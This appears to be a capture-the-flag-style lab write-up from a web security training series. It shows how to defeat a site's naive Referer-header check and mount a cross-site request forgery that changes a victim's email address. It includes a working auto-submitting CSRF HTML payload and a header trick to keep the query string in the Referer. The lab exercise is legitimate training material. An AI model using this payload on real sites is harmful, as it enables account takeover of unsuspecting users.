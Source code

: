 Copy the original domain of your lab instance and append it to the `Referer` header in the form of a query string, or like this:

```
Referer: https://foobar.net?YOUR-LAB-ID.web-security-academy.net
```

The response should be:

```
HTTP/2 302 Found
Location: /my-account?id=wiener
X-Frame-Options: SAMEORIGIN
Content-Length: 0
```

As you can see the request is now accepted. The websute seems to accept any `Referer` header as long as it contains the expected domain somewhere in the string. 

Create a CSRF proof of concept exploit and host it on the exploit server. Edit the JavaScript so that the third argument of the `history.pushState()` function includes a query string with your lab instance URL as follows: 

```
<script>
  history.pushState("", "", "/?YOUR-LAB-ID.web-security-academy.net")
</script>
<form method="POST" action="https://YOUR-LAB-ID.web-security-academy.net/my-account/change-email">
    <input type="hidden" name="email" value="anything%40web-security-academy.net">
</form>
<script>
        document.forms[0].submit();
</script>
```

This will cause the Referer header in the generated request to contain the URL of the target site in the query string, just like we tested earlier.

In the "Head" section of the exploit server form, include the following header to override the browser stripping query string from the `Referer` header:

```
Referrer-Policy: unsafe-url
```

Click "Store" and then "Deliver exploit to victim" to solve the lab.

> Next write-up: [Clickjacking (UI redressing)](../psa_clickjacking/README.md)
